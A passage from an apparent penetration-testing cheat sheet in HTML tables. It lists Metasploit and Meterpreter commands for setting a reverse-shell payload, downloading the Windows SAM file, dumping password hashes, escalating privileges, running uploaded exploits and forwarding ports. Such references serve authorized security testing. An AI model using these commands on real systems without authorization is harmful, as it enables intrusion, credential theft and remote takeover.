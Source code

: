 <td>set payload linux/meterpreter/reverse_tcp</td>
<td>Meterpreter Linux Reverse Payload</td>
</tr>
</tbody>
</table>
<h2>Meterpreter Cheat Sheet</h2>
<p>Useful meterpreter commands.</p>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>upload file c:\\windows</td>
<td>Meterpreter upload file to Windows target</td>
</tr>
<tr>
<td>download c:\\windows\\repair\\sam /tmp</td>
<td>Meterpreter download file from Windows target</td>
</tr>
<tr>
<td>download c:\\windows\\repair\\sam /tmp</td>
<td>Meterpreter download file from Windows target</td>
</tr>
<tr>
<td>execute -f c:\\windows\temp\exploit.exe</td>
<td>Meterpreter run .exe on target – handy for executing uploaded exploits</td>
</tr>
<tr>
<td>execute -f cmd -c</td>
<td>Creates new channel with cmd shell</td>
</tr>
<tr>
<td>ps</td>
<td>Meterpreter show processes</td>
</tr>
<tr>
<td>shell</td>
<td>Meterpreter get shell on the target</td>
</tr>
<tr>
<td>getsystem</td>
<td>Meterpreter attempts priviledge escalation the target</td>
</tr>
<tr>
<td>hashdump</td>
<td>Meterpreter attempts to dump the hashes on the target</td>
</tr>
<tr>
<td>portfwd add –l 3389 –p 3389 –r target</td>
<td>Meterpreter create port forward to target machine</td>
</tr>
<tr>
<td>portfwd delete –l 3389 –p 3389 –r target</td>
<td>Meterpreter delete port forward</td>
</tr>
</tbody>
</table>
<h2>Common Metasploit Modules</h2>
<h3>Remote Windows Metasploit Modules (exploits)</h3>
<table>